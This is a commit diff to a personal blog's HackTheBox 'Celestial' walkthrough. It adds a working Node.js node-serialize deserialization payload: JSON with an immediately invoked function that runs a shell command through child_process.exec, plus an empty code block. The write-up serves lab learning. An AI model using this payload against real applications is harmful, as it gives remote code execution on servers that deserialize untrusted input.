

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-09-21-Hackthebox-Celestial-Walkthrough.md, in a window 1280 px wide and 900 px high, scrolled down 4460 px. Shown: the top 849 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; before the commit the page ends 5202 px from its top, so only the background shows below that.

Commit message:
WIP celestial-walkthrough

```diff
--- a/_posts/2019-09-21-Hackthebox-Celestial-Walkthrough.md
+++ b/_posts/2019-09-21-Hackthebox-Celestial-Walkthrough.md
@@ -149,4 +149,13 @@ Serialized:
 {"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });\n }"}
 {% endhighlight %}
 
+Now we had a RCE part of our exploit.<br>
+By combining previous JSON and this serialized RCE code, we can obtain the payload.
+{% highlight shell %}
+{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"_$$ND_FUNC$$_function(){\n require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
+{% endhighlight %}
+{% highlight shell %}
+
+{% endhighlight %}
+
 ### 3. Getting Root
```
